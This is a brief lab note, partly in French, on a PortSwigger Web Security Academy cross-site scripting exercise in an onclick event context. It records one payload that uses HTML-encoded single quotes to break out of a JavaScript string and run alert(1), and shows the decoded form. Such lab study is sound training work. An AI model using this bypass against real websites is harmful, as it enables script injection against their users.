 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

## Payload

```
https://foo?&apos;-alert(1)-&apos;
```

Qui est interpreté comme :

```
https://foo?';-alert(1)-';
```